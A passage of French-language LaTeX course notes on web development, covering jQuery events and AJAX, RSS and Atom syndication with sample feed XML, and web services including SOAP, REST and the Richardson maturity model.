  Clavier

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{keypress,\ keyup,\ keydown}}
  \end{itemize}
\item
  Formulaires

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{submit,\ change,\ focus,\ blur}}
  \end{itemize}
\item
  Document

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{ready,\ load,\ resize,\ scroll,\ unload}}
  \end{itemize}
\item
  Exemple
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{$}\NormalTok{(}\StringTok{"p"}\NormalTok{)}\OperatorTok{.}\FunctionTok{click}\NormalTok{(}\KeywordTok{function}\NormalTok{()\{}
  \CommentTok{// code à éxecuter ici}
\NormalTok{\})}\OperatorTok{;} 
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{ajax11}{%
\section{\texorpdfstring{\href{https://www.w3schools.com/jquery/jquery_ajax_load.asp}{AJAX}}{AJAX}}\label{ajax11}}

\begin{itemize}
\tightlist
\item
  \textenglish{\texttt{\$(selector).load(URL,\ data,\ callback)}}

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{URL}} : Ressource ciblée par la requête
  \item
    \textenglish{\texttt{data}} : éventuel contenu
  \item
    \textenglish{\texttt{callback}} : fonction de rappel avec 3
    paramètres :

    \begin{itemize}
    \tightlist
    \item
      \textenglish{\texttt{responseTxt}}
    \item
      \textenglish{\texttt{statusTxt}}
    \item
      \textenglish{\texttt{xhr}}
    \end{itemize}
  \end{itemize}
\item
  \textenglish{\texttt{\$.get(URL,\ callback)}}
\item
  \textenglish{\texttt{\$.post(URL,\ data,\ callback)}}
\end{itemize}

\hypertarget{effets-et-animations}{%
\section{Effets et animations}\label{effets-et-animations}}

\begin{itemize}
\tightlist
\item
  \textenglish{\texttt{hide(),\ show(),\ toggle()}}
\item
  \textenglish{\texttt{fadeIn(),\ fadeOut(),\ fadeToggle()}}
\item
  \textenglish{\texttt{slideDown(),\ slideUp(),\ slideToggle()}}
\item
  \href{https://www.w3schools.com/jquery/jquery_animate.asp}{\textenglish{\texttt{animate()}}}
\end{itemize}

\hypertarget{alternatives}{%
\section{Alternatives}\label{alternatives}}

\begin{itemize}
\tightlist
\item
  \emph{jQuery aussi, ça fait vieux}, YBL 17.10.29
\item
  \href{https://gist.github.com/paulirish/12fb951a8b893a454b32}{bling.js}
\item
  API
  \href{https://www.w3schools.com/jsref/met_document_queryselectorall.asp}{queryselectorall()}
  au lieu des getElementsBy\ldots{}
\end{itemize}

\hypertarget{ruxe9fuxe9rences}{%
\section{Références}\label{ruxe9fuxe9rences}}

\begin{itemize}
\tightlist
\item
  Site officiel de \href{https://jquery.com/}{jQuery}
\item
  Tutos \href{https://www.w3schools.com/jquery/}{w3schools}
\item
  \href{https://github.com/jquery/sizzle/wiki}{SizzleJS} : uniquement
  les sélecteurs
\item
  Comparaison avec \href{http://vanilla-js.com/}{Vanilla JS}
\end{itemize}

\hypertarget{sources}{%
\section{Sources}\label{sources}}


\chapter{ Syndication (RSS)}
\hypertarget{syndication}{%
\section{Syndication}\label{syndication}}

\begin{itemize}
\tightlist
\item
  Principe de vendre un contenu à plusieurs médias
\item
  Dans les journaux : dépêches, bandes dessinées, \ldots{}
\item
  Télévision : jeux, séries
\item
  Web : Flux RSS / Atom

  \begin{itemize}
  \tightlist
  \item
    1 source de donnée, plusieurs abonnés
  \item
    Contenu : news, blogs, podcast, \ldots{}
  \item
    Accès unique à plusieurs sources d'informations
  \item
    Mises à jour fréquentes
  \end{itemize}
\end{itemize}

\hypertarget{historique}{%
\section{Historique}\label{historique}}

\begin{itemize}
\tightlist
\item
  Feed (fil ou flux) RSS
\item
  Format d'échange de données en XML

  \begin{itemize}
  \tightlist
  \item
    fournir ou recueillir des données structurées
  \end{itemize}
\item
  Utilisation d'un lecteur (agrégateur) RSS
\item
  RSS V.90 Créé en 1999 par Netscape
\item
  RSS v1.0 par O'Reilly en 2000
\item
  RSS v2.0 par Dave Winer (Harvard) en 2002
\item
  Atom v1.0 en 2005 (développement communautaire)
\end{itemize}

Il y a \emph{neuf} versions de RSS généralement incompatibles entre
elles. Lire
\href{https://web.archive.org/web/20110726001954/http://diveintomark.org/archives/2004/02/04/incompatible-rss}{The
myth of RSS compatibility}

\hypertarget{applications}{%
\section{Applications}\label{applications}}

\begin{itemize}
\tightlist
\item
  Récupérer l'info pour :

  \begin{itemize}
  \tightlist
  \item
    la lire
  \item
    la réutiliser sur un site
  \end{itemize}
\item
  News
\item
  Notification : activité, mise à jour
\item
  Podcasts
\item
  Accès unique à des infos de plusieurs sites
\item
  Source de contenu
\item
  Augmenter le trafic d'un site
\item
  \href{http://blog.louisgray.com/2008/11/30-different-uses-for-rss.html}{Exemples}
  et
  \href{http://www.makeuseof.com/tag/14-other-ways-to-use-rss-feeds/}{Passerelles}
\end{itemize}

\hypertarget{agruxe9gateurs}{%
\section{Agrégateurs}\label{agruxe9gateurs}}

\begin{itemize}
\tightlist
\item
  Natifs

  \begin{itemize}
  \tightlist
  \item
    Navigateurs (IE, FF, \ldots)
  \item
    Clients mail (OL, TB, Evolution, \ldots)
  \item
    Applis dédiées (Newsgator, FeedDemon, \ldots)
  \end{itemize}
\item
  WebApps

  \begin{itemize}
  \tightlist
  \item
    Feedly, NetVibes, Sniptracker\ldots{}
  \end{itemize}
\item
  Extensions

  \begin{itemize}
  \tightlist
  \item
    Sage
  \end{itemize}
\item
  \href{https://en.wikipedia.org/wiki/Comparison_of_feed_aggregators}{Liste}
\end{itemize}

\hypertarget{guxe9nuxe9rer-un-flux-rss}{%
\section{Générer un flux RSS}\label{guxe9nuxe9rer-un-flux-rss}}

\begin{itemize}
\tightlist
\item
  Fichier XML :

  \begin{itemize}
  \tightlist
  \item
    Canal / Items (RSS)
  \item
    Entrées (Atom)
  \end{itemize}
\item
  Indiquer le flux au navigateur
\item
  Permettre l'abonnement : logo visible dans la page
\item
  Génération dynamique du fichier XML
\end{itemize}

\hypertarget{formats}{%
\section{Formats}\label{formats}}

\begin{itemize}
\tightlist
\item
  RSS 2.0 (Really Simple Syndication)

  \begin{itemize}
  \tightlist
  \item
    Simple, le plus répandu
  \item
    Extensible par modules (éléments supplémentaires)
  \end{itemize}
\item
  Atom 1.0 : 2 standards web

  \begin{itemize}
  \tightlist
  \item
    Atom Syndication Format
  \item
    Atom Publishing Protocol
  \end{itemize}
\item
  RSS 0.90, 1.0 (RDF Site Summary) : obsolète

  \begin{itemize}
  \tightlist
  \item
    Basé sur RDF
  \item
    Extensible par modules
  \end{itemize}
\item
  Antérieurs : RSS 0.91, 0.92 (Rich Site Summary) : obsolètes

  \begin{itemize}
  \tightlist
  \item
    Migration facile vers RSS 2.0
  \end{itemize}
\end{itemize}

\hypertarget{rss-2.0}{%
\section{RSS 2.0}\label{rss-2.0}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}?xml}\NormalTok{ version="1.0" encoding="utf{-}8"}\KeywordTok{?\textgreater{}}
\KeywordTok{\textless{}rss}\OtherTok{ version=}\StringTok{"2.0"}\KeywordTok{\textgreater{}}
    \KeywordTok{\textless{}channel\textgreater{}}
    
        \KeywordTok{\textless{}title\textgreater{}}\NormalTok{Arc Info News RSS 2.0}\KeywordTok{\textless{}/title\textgreater{}}
        \KeywordTok{\textless{}link\textgreater{}}\NormalTok{http://www.he{-}arc.ch/}\KeywordTok{\textless{}/link\textgreater{}}
        \KeywordTok{\textless{}description\textgreater{}}\NormalTok{News HE{-}Arc (RSS 2.0)}\KeywordTok{\textless{}/description\textgreater{}}
        
        \KeywordTok{\textless{}language\textgreater{}}\NormalTok{fr}\KeywordTok{\textless{}/language\textgreater{}}
        \KeywordTok{\textless{}pubDate\textgreater{}}\NormalTok{Sun, 26 Oct 2008 04:00:00 GMT}\KeywordTok{\textless{}/pubDate\textgreater{}}
        \KeywordTok{\textless{}lastBuildDate\textgreater{}}\NormalTok{Sun, 26 Oct 2008 09:41:01 GMT}\KeywordTok{\textless{}/lastBuildDate\textgreater{}}
        \KeywordTok{\textless{}docs\textgreater{}}\NormalTok{http://blogs.law.harvard.edu/tech/rss}\KeywordTok{\textless{}/docs\textgreater{}}
        \KeywordTok{\textless{}managingEditor\textgreater{}}\NormalTok{david.grunenwald@he{-}arc.ch}\KeywordTok{\textless{}/managingEditor\textgreater{}}
        \KeywordTok{\textless{}webMaster\textgreater{}}\NormalTok{david.grunenwald@he{-}arc.ch}\KeywordTok{\textless{}/webMaster\textgreater{}}
        \KeywordTok{\textless{}ttl\textgreater{}}\NormalTok{5}\KeywordTok{\textless{}/ttl\textgreater{}}
    
        \KeywordTok{\textless{}item\textgreater{}}
          \KeywordTok{\textless{}title\textgreater{}}\NormalTok{Nouveau cours d\textquotesingle{}Applications Internet 2}\KeywordTok{\textless{}/title\textgreater{}}
          \KeywordTok{\textless{}link\textgreater{}}\NormalTok{https://intranet.he{-}arc.ch/sites/ingenierie/}
\NormalTok{          Bachelor\_Modules\_Annees\_Fich/12{-}13/Niveau{-}3/}
\NormalTok{          ING{-}DM3254{-}12{-}D\%C3\%A9veloppement\%20web\%20et\%20mobile{-}V1.docx}\KeywordTok{\textless{}/link\textgreater{}}
          \KeywordTok{\textless{}description\textgreater{}}\NormalTok{Un nouveau cours}\KeywordTok{\textless{}/description\textgreater{}}
          \KeywordTok{\textless{}pubDate\textgreater{}}\NormalTok{Mon, 27 Oct 2008 09:39:21 GMT}\KeywordTok{\textless{}/pubDate\textgreater{}}
        \KeywordTok{\textless{}/item\textgreater{}}
    
    \KeywordTok{\textless{}/channel\textgreater{}}
\KeywordTok{\textless{}/rss\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{atom-1.0}{%
\section{Atom 1.0}\label{atom-1.0}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}?xml}\NormalTok{ version="1.0" encoding="utf{-}8"}\KeywordTok{?\textgreater{}}
\KeywordTok{\textless{}feed}\OtherTok{ xmlns=}\StringTok{"http://www.w3.org/2005/Atom"}\KeywordTok{\textgreater{}}
 
    \KeywordTok{\textless{}title\textgreater{}}\NormalTok{Arc Info News Atom 1.0}\KeywordTok{\textless{}/title\textgreater{}}
    \KeywordTok{\textless{}subtitle\textgreater{}}\NormalTok{version Atom}\KeywordTok{\textless{}/subtitle\textgreater{}}
    \KeywordTok{\textless{}link}\OtherTok{ rel=}\StringTok{"self"}\OtherTok{ type=}\StringTok{"application/atom+xml"} 
\OtherTok{        href=}\StringTok{"http://www.he{-}arc.ch/rss{-}generator/atom.php"} \KeywordTok{/\textgreater{}}

    \KeywordTok{\textless{}updated\textgreater{}}\NormalTok{2008{-}10{-}27T18:30:02Z}\KeywordTok{\textless{}/updated\textgreater{}}
    \KeywordTok{\textless{}author\textgreater{}}
        \KeywordTok{\textless{}name\textgreater{}}\NormalTok{David Grunenwald}\KeywordTok{\textless{}/name\textgreater{}}
        \KeywordTok{\textless{}email\textgreater{}}\NormalTok{david.grunenwald@he{-}arc.ch}\KeywordTok{\textless{}/email\textgreater{}}
    \KeywordTok{\textless{}/author\textgreater{}}
    \KeywordTok{\textless{}id\textgreater{}}\NormalTok{http://dgr.he{-}arc.ch/}\KeywordTok{\textless{}/id\textgreater{}}
     
    \KeywordTok{\textless{}entry\textgreater{}}
        \KeywordTok{\textless{}title\textgreater{}}\NormalTok{Nouveau cours d\textquotesingle{}Applications Internet 2}\KeywordTok{\textless{}/title\textgreater{}}
        \KeywordTok{\textless{}link\textgreater{}}\NormalTok{https://intranet.he{-}arc.ch/sites/ingenierie/}
\NormalTok{          Bachelor\_Modules\_Annees\_Fich/12{-}13/Niveau{-}3/}
\NormalTok{          ING{-}DM3254{-}12{-}D\%C3\%A9veloppement\%20web\%20et\%20mobile{-}V1.docx}\KeywordTok{\textless{}/link\textgreater{}}
        \KeywordTok{\textless{}id\textgreater{}}\NormalTok{http://dgr.he{-}arc.ch/atom/1234}\KeywordTok{\textless{}/id\textgreater{}}
        \KeywordTok{\textless{}updated\textgreater{}}\NormalTok{2008{-}10{-}27T18:30:02Z}\KeywordTok{\textless{}/updated\textgreater{}}
        \KeywordTok{\textless{}summary\textgreater{}}\NormalTok{Un tout nouveau cours.}\KeywordTok{\textless{}/summary\textgreater{}}
    \KeywordTok{\textless{}/entry\textgreater{}}
 
\KeywordTok{\textless{}/feed\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{guxe9nuxe9rer-le-flux}{%
\section{Générer le flux}\label{guxe9nuxe9rer-le-flux}}

\begin{itemize}
\tightlist
\item
  Données dynamiques
\item
  Source de données identique à celle de l'application
\item
  Nécessité de générer le fichier à la volée
\item
  Nouveaux items en premier
\item
  Possibilité d'afficher le flux avec XSLT
\end{itemize}

\hypertarget{signaler-la-pruxe9sence-dun-fil-rss}{%
\section{Signaler la présence d'un fil
RSS}\label{signaler-la-pruxe9sence-dun-fil-rss}}

\begin{itemize}
\tightlist
\item
  Au navigateur
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}link}\OtherTok{ rel=}\StringTok{"alternate"}\OtherTok{ type=}\StringTok{"application/rss+xml"}\OtherTok{ title=}\StringTok{"RSS"} 
\OtherTok{    href=}\StringTok{"http://www.site.tld/feedfilename.xml"}\KeywordTok{\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  À l'utilisateur

  \begin{itemize}
  \tightlist
  \item
    Icône + lien vers le script générant le flux
  \end{itemize}

  \begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}a}\OtherTok{ href=}\StringTok{"http://www.site.tld/feed"}\KeywordTok{\textgreater{}}
\KeywordTok{\textless{}img}\OtherTok{ src=}\StringTok{"rss{-}icon.png"}\OtherTok{ alt=}\StringTok{"M\textquotesingle{}abonner"} \KeywordTok{/\textgreater{}\textless{}/a\textgreater{}} 
\end{Highlighting}
\end{Shaded}

  \end{english}
\item
  Valider un flux

  \begin{itemize}
  \tightlist
  \item
    \href{http://validator.w3.org/feed/}{w3c}
  \item
    \href{http://www.feedvalidator.org/}{feedvalidator}
  \end{itemize}
\item
  MIME Types

  \begin{itemize}
  \tightlist
  \item
    application/atom+xml
  \item
    application/rss+xml
  \end{itemize}
\end{itemize}

\hypertarget{podcasts}{%
\section{Podcasts}\label{podcasts}}

\begin{itemize}
\tightlist
\item
  Elément en RSS 2.0 :
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}item\textgreater{}}
\KeywordTok{\textless{}title\textgreater{}}\NormalTok{Podcast}\KeywordTok{\textless{}/title\textgreater{}}
\KeywordTok{\textless{}link\textgreater{}}\NormalTok{http://www.website\_url.com}\KeywordTok{\textless{}/link\textgreater{}}
\KeywordTok{\textless{}description\textgreater{}}\NormalTok{Podcast : audio.mp3}\KeywordTok{\textless{}/description\textgreater{}}

\KeywordTok{\textless{}enclosure}\OtherTok{ url=}\StringTok{"http://www.site.tld/sounds/audio.mp3"}\OtherTok{ length=}\StringTok{"666666"}\OtherTok{ type=}\StringTok{"audio/mpeg"}\KeywordTok{/\textgreater{}}

\KeywordTok{\textless{}guid}\OtherTok{ isPermaLink=}\StringTok{"false"}\KeywordTok{\textgreater{}}\NormalTok{2004{-}11{-}30{-}02}\KeywordTok{\textless{}/guid\textgreater{}}
\KeywordTok{\textless{}/item\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Elément en Atom 1.0 :
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}entry\textgreater{}} 
\KeywordTok{\textless{}id\textgreater{}}\NormalTok{http://www.example.org/entries/1}\KeywordTok{\textless{}/id\textgreater{}} \KeywordTok{\textless{}title\textgreater{}}\NormalTok{Atom 1.0}\KeywordTok{\textless{}/title\textgreater{}} 
\KeywordTok{\textless{}updated\textgreater{}}\NormalTok{2005{-}07{-}15T12:00:00Z}\KeywordTok{\textless{}/updated\textgreater{}} 
\KeywordTok{\textless{}link}\OtherTok{ href=}\StringTok{"http://www.example.org/entries/1"} \KeywordTok{/\textgreater{}} 
\KeywordTok{\textless{}summary\textgreater{}}\NormalTok{An overview of Atom 1.0}\KeywordTok{\textless{}/summary\textgreater{}} 

\KeywordTok{\textless{}link}\OtherTok{ rel=}\StringTok{"enclosure"} 
\OtherTok{type=}\StringTok{"audio/mpeg"}\OtherTok{ title=}\StringTok{"Sttellla {-} ça va comme un lundi"} 
\OtherTok{href=}\StringTok{" http://www.site.tld/sounds/audio.mp3 "}
\OtherTok{length=}\StringTok{"666666"} \KeywordTok{/\textgreater{}}

\KeywordTok{\textless{}/entry\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{alternatives}{%
\section{Alternatives}\label{alternatives}}

\begin{itemize}
\tightlist
\item
  \href{http://ogp.me/}{Facebook Open Graph}
\item
  \href{https://dev.twitter.com/cards/overview}{Twitter Cards}
\item
  \href{http://schema.org/}{Google Schema.org}
\item
  \href{http://microformats.org/}{Microformats}
\item
  \href{http://json-ld.org/}{JSON-LD}
\end{itemize}

De multiples spécifications permettent d'enrichir le contenu d'une page
afin de la rendre aisément « consommable » par un moteur de recherche,
ou une plateforme sociale (e.g.~Facebook, Twitter, Reddit, etc.)

RDF/XML (utilisé par RSS 0.90, 0.91) est progressivement remplacé par
les \emph{microdata} (Schema.org), RDFa ou JSON-LD. Les microformats
sont notamment utilisés par LinkedIn.

\hypertarget{pour-en-savoir-plus}{%
\section{Pour en savoir plus\ldots{}}\label{pour-en-savoir-plus}}

\begin{itemize}
\tightlist
\item
  \href{http://www.xul.fr/xml-rss.html}{Étapes de création d'un flux}
\item
  \href{http://www.rssboard.org/rss-specification}{Spécification RSS
  2.0}
\item
  \href{https://tools.ietf.org/html/rfc4287}{Spécification Atom 1.0}
\item
  \href{http://www.differencebetween.info/difference-between-rss-and-atom}{Comparatif
  RSS 2.0 / Atom 1.0}
\item
  \href{https://trends.builtwith.com/feeds}{Stats} d'utilisation
\item
  \href{http://www.makeuseof.com/tag/rss-dead-look-numbers/}{Is RSS dead
  ?} (03.2015)
\end{itemize}

\hypertarget{sources}{%
\section{Sources}\label{sources}}


\chapter{ Services Web}
\hypertarget{applications-distribuuxe9es}{%
\section{Applications distribuées}\label{applications-distribuuxe9es}}

\begin{itemize}
\tightlist
\item
  Motivation : répartir l'exécution sur plusieurs machines

  \begin{itemize}
  \tightlist
  \item
    Principe : Les composants/services communiquent par le réseau
  \item
    Problèmes : Hétérogénéité systèmes, langages, \ldots{}
  \item
    Solution : Protocole générique, abstraction différences
  \item
    Exemples : RPC, RMI (java), CORBA, DCOM (MS)
  \end{itemize}
\item
  Utiliser les technologies du web, comme HTTP et XML :

  \begin{itemize}
  \tightlist
  \item
    indépendantes de la plateforme, éprouvées, largement utilisées
  \end{itemize}
\item
  Système distribué importance de l'architecture :

  \begin{itemize}
  \tightlist
  \item
    \href{https://en.wikipedia.org/wiki/Resource-oriented_architecture}{orientée
    ressource} : atome : ressource (donnée) : REST
  \item
    \href{https://fr.wikipedia.org/wiki/Architecture_orient\%C3\%A9e_services}{orientée
    service} : atome : service (traitement) : RPC (SOAP)
  \end{itemize}
\end{itemize}

\hypertarget{service-web}{%
\section{Service web}\label{service-web}}

\begin{itemize}
\tightlist
\item
  2 visions :

  \begin{itemize}
  \tightlist
  \item
    Utiliser les technos web pour développer des applis distribuées
  \item
    Accès pour une application aux services offerts aux humains
  \end{itemize}
\item
  Service web = webapp pour une autre application :

  \begin{itemize}
  \tightlist
  \item
    Webapps : pour humains, via un navigateur (HTTP + HTML)
  \item
    Services web : aux autres applications (HTTP + XML/JSON)
  \end{itemize}
\item
  Exemples :

  \begin{itemize}
  \tightlist
  \item
    \href{https://upload.wikimedia.org/wikipedia/commons/3/3f/Concept_WS.jpg}{Applications
    distribuées} pour l'entreprise
  \item
    \href{https://fr.wikipedia.org/wiki/Application_composite}{Mashups}
    d'applications web
    (\href{https://www.programmableweb.com/category/mashups}{exemples})
  \item
    Applications Facebook,
    \href{https://developers.google.com/apis-explorer/}{API Google}
  \item
    \href{https://ifttt.com/}{IFTTT}
  \end{itemize}
\item
  Consommer un service web ≠ Créer un service web
\end{itemize}

\hypertarget{soap}{%
\section{SOAP}\label{soap}}

\begin{itemize}
\tightlist
\item
  AVANT : Simple Object Access Protocol (obsolète)
\item
  Evolution de XML-RPC, format XML d'envoi de messages
\item
  Architecture Orientée Service (SOA)
\item
  Indépendant du langage et de la plateforme
\item
  Recommandation du w3c depuis 2003
\item
  SOAP = abus de langage, service web WS-* est plus exact
\item
  Spécifications
  \href{https://en.wikipedia.org/wiki/List_of_web_service_specifications}{WS-*}
  :

  \begin{itemize}
  \tightlist
  \item
    spécifications liées aux différents aspects des services web
  \item
    pour déployer un WS : au minimum SOAP + WSDL + UDDI
  \end{itemize}
\end{itemize}

\hypertarget{soap-1}{%
\section{SOAP}\label{soap-1}}

\begin{itemize}
\tightlist
\item
  Structure d'un message SOAP

  \begin{itemize}
  \tightlist
  \item
    Enveloppe, Entête, Corps, Erreurs
  \end{itemize}
\item
  Squelette :
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}?xml}\NormalTok{ version="1.0"}\KeywordTok{?\textgreater{}}
\KeywordTok{\textless{}soap:Envelope}
\OtherTok{     xmlns:soap=}\StringTok{"http://www.w3.org/2001/12/soap{-}envelope"}
\OtherTok{     soap:encodingStyle=}\StringTok{"http://www.w3.org/2001/12/soap{-}encoding"}\KeywordTok{\textgreater{}}
  \KeywordTok{\textless{}soap:Header\textgreater{}}\NormalTok{  ... }\KeywordTok{\textless{}/soap:Header\textgreater{}}
  \KeywordTok{\textless{}soap:Body\textgreater{}}\NormalTok{  ... }
    \KeywordTok{\textless{}soap:Fault\textgreater{}}\NormalTok{ ... }\KeywordTok{\textless{}/soap:Fault\textgreater{}}
  \KeywordTok{\textless{}/soap:Body\textgreater{}}
\KeywordTok{\textless{}/soap:Envelope\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{soap-2}{%
\section{SOAP}\label{soap-2}}

\begin{itemize}
\tightlist
\item
  \href{http://www.w3schools.com/xml/xml_soap.asp}{Exemple}
  requête/réponse
\item
  \href{http://www.w3big.com/fr/soap/default.html\#gsc.tab=0}{Introduction
  à SOAP} (fr)
\item
  Créer un service web WS (SOAP) nécessite WSDL et UDDI :

  \begin{itemize}
  \tightlist
  \item
    SOAP : Echange de messages XML sur le réseau
  \item
    WSDL : Web Service Description Language
  \item
    UDDI : Universal Description, Discovery and Integration
  \end{itemize}
\item
  WSDL : Description des interfaces des web services
\item
  UDDI : Découverte et inscription aux services web

  \begin{itemize}
  \tightlist
  \item
    annuaire d'informations sur les services web
  \item
    annuaire d'interfaces de services web décrites en WSDL
  \end{itemize}
\item
  \href{http://www.w3schools.com/xml/xml_wsdl.asp}{Tutorial WSDL/UDDI
  w3schools}
\end{itemize}

\hypertarget{rest-representational-state-transfer}{%
\section{REST : REpresentational State
Transfer}\label{rest-representational-state-transfer}}

\begin{itemize}
\tightlist
\item
  Style d'architecture sur lequel a été bâti le web
\item
  Architecture Orientée Ressource (ROA)
\item
  Chapitre 5 de la
  \href{http://www.ics.uci.edu/~fielding/pubs/dissertation/top.htm}{thèse}
  de \href{https://fr.wikipedia.org/wiki/Roy_Fielding}{Roy T. Fielding}
  (\href{http://opikanoba.org/tr/fielding/rest/}{fr}), 2000
\item
  Parmi les
  \href{https://fr.wikipedia.org/wiki/Representational_state_transfer}{contraintes},
  une interface uniforme :

  \begin{itemize}
  \tightlist
  \item
    Identification des ressources (URI)
  \item
    Manipulation des ressources par des représentations
  \item
    Messages autodescriptifs
  \item
    Hypermédia comme moteur de l'état de l'application
  \end{itemize}
\item
  Ressource : information ou moyen d'accès

  \begin{itemize}
  \tightlist
  \item
    ex. : météo du jour, adresse ajout d'un article à un blog, \ldots{}
  \end{itemize}
\item
  Représentation : forme donnée à la ressource

  \begin{itemize}
  \tightlist
  \item
    ex. : page html, fichier PDF, image, flux RSS, fichier sonore,
    \ldots{}
  \end{itemize}
\end{itemize}

\hypertarget{rest}{%
\section{REST}\label{rest}}

\begin{itemize}
\tightlist
\item
  Principes

  \begin{itemize}
  \tightlist
  \item
    Identifier les ressources avec des URI (noms)
  \item
    Actions déterminées par des méthodes HTTP (verbes)

    \begin{itemize}
    \tightlist
    \item
      GET : READ (sûre)
    \item
      POST : CREATE
    \item
      PUT, PATCH : UPDATE (idempotente)
    \item
      DELETE : DELETE (idempotente)
    \end{itemize}
  \item
    Les liens hypertextes permettent de représenter le contenu :
    navigation
  \item
    Les types MIME determinent la représentation de la ressource
  \end{itemize}
\item
  Rappel

  \begin{itemize}
  \tightlist
  \item
    Sûreté : Etat de la ressource (contenu) inchangé
  \item
    Idempotence : plusieurs appels donnent le même résultat
  \end{itemize}
\end{itemize}

\hypertarget{rest-1}{%
\section{REST}\label{rest-1}}

\begin{itemize}
\tightlist
\item
  L'appel d'une ressource avec des verbes différents produira un
  résultat différent :
\end{itemize}

\begin{longtable}[]{@{}lllll@{}}
\toprule
Effet & Route & Verbe & URI (ressource) & Description\tabularnewline
\midrule
\endhead
& Index & GET & /blogs & Affiche la liste\tabularnewline
& New & GET & /blog/new & Affiche formulaire création\tabularnewline
C & Create & POST & /blogs & Création en DB, puis
redirection\tabularnewline
R & Show & GET & /blogs/42 & Affiche le blog 42\tabularnewline
& Edit & GET & /blogs/42/edit & Formulaire édition blog
42\tabularnewline
U & Update & PUT & /blogs/42 & MAJ en DB blog 42\tabularnewline
D & Destroy & DELETE & /blogs/42 & Suppression ne DB blog
42\tabularnewline
\bottomrule
\end{longtable}

\begin{itemize}
\tightlist
\item
  Laravel, Django, Rails, \ldots{} sont RESTful !
\end{itemize}

\hypertarget{niveaux-de-maturituxe9-de-richardson18}{%
\section{\texorpdfstring{Niveaux de maturité de
\href{http://martinfowler.com/articles/richardsonMaturityModel.html}{Richardson}}{Niveaux de maturité de Richardson}}\label{niveaux-de-maturituxe9-de-richardson18}}

\begin{itemize}
\tightlist
\item
  0: Plain Old Xml (POX)

  \begin{itemize}
  \tightlist
  \item
    Utilisation de HTTP pour faire du RPC
  \end{itemize}
\item
  1: Ressources

  \begin{itemize}
  \tightlist
  \item
    Ressources identifiées par URI
  \end{itemize}
\item
  2: Verbes HTTP

  \begin{itemize}
  \tightlist
  \item
    Respect des propriétés des verbes HTTP
  \end{itemize}
\item
  3: Hypertext As The Engine Of Application State (HATEOAS)

  \begin{itemize}
  \tightlist
  \item
    Les états suivants sont documentés dans la réponse
    (\textenglish{\texttt{\textless{}link\textgreater{}}})
  \end{itemize}
\end{itemize}

\hypertarget{soap-vs-rest}{%
\section{SOAP vs REST}\label{soap-vs-rest}}

\begin{itemize}
\tightlist
\item
  webservice : exposer son API en REST ou SOAP ?
\item
  SOAP (WS-*)

  \begin{itemize}
  \tightlist
  \item
    hérité du monde de l'entreprise
  \item
    plus de code pour manipuler la requête et générer la réponse
  \item
    plus flexible, extensible (namespace)
  \item
    valider requêtes depuis WDSL
  \item
    nécessité d'un framework (ex: nuSOAP en PHP)
  \end{itemize}
\item
  REST

  \begin{itemize}
  \tightlist
  \item
    hérité du web
  \item
    plus facile et rapide à utiliser
  \item
    plus lisible et plus compact
  \item
    maintenance plus facile
  \item
    meilleure tolérance aux pannes
  \end{itemize}
\end{itemize}

\hypertarget{pour-aller-plus-loin}{%
\section{Pour aller plus loin\ldots{}}\label{pour-aller-plus-loin}}

\begin{itemize}
\tightlist
\item
  Références

  \begin{itemize}
  \tightlist
  \item
    \href{https://www.w3.org/TR/soap/}{SOAP},
    \href{https://www.w3.org/2002/ws/desc/}{WSDL},
    \href{http://uddi.xml.org/}{UDDI},
    \href{http://www.ics.uci.edu/~fielding/pubs/dissertation/top.htm}{REST},
    \href{http://www.oasis-ws-i.org/}{The WSIO}
  \item
    \href{https://larlet.fr/david/biologeek/archives/20070629-architecture-orientee-ressource-pour-faire-des-services-web-restful/}{Des
    services web RESTful},
    \href{https://web.archive.org/web/20160310205502/http://home.ccil.org/~cowan/restws.pdf}{Une
    apologie de REST} (recommandés)
  \item
    \href{http://www.figer.com/Publications/SOA.htm}{REST et
    architectures orientées service},
    \href{http://fr.slideshare.net/samijaber/symposium-dng-2008-roa}{Présentation
    ROA}
  \item
    \href{http://restcookbook.com/}{The RESTful cookbook}, How important
    is
    \href{http://stackoverflow.com/questions/20335967/how-useful-important-is-rest-hateoas-maturity-level-3}{HATEOAS}
    (stack overflow)
  \end{itemize}
\item
  Exemples de services web :

  \begin{itemize}
  \tightlist
  \item
    \href{https://developers.google.com/products/}{Google},
    \href{https://developer.yahoo.com/everything.html}{Yahoo},
    \href{https://www.flickr.com/services/api/}{Flickr},
    \href{https://dev.twitter.com/overview/api}{Twitter}, \ldots{}
  \item
    \href{https://apiary.io/}{APIary} : Aide au design d'une API REST
  \item
    Tests : Postman, \href{https://hoppscotch.io/}{Hoppscotch},
    \href{https://ping-api.com/}{Ping-API},
    \href{https://testsigma.com/blog/postman-alternatives/}{autres}
  \end{itemize}
\item
  \href{http://graphql.org/}{GraphQL}

  \begin{itemize}
  \tightlist
  \item
    est destiné à devenir la prochaine évolution des apis REST utilisant
    JSON. Initié par Facebook, Github permet également d'en
    \href{https://developer.github.com/v4/}{faire usage}.
  \end{itemize}
\end{itemize}

\hypertarget{sources}{%
\section{Sources}\label{sources}}


\chapter{ Responsive Web Design}
\hypertarget{site-adaptatif}{%
